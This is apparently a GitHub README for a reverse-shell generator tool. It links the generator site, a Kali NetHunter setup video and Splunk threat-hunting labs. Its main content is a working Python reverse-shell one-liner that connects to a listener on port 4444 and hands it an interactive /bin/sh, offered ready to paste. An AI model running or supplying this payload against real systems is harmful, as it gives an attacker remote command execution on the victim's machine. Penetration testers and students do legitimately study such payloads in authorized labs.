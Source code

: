 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm
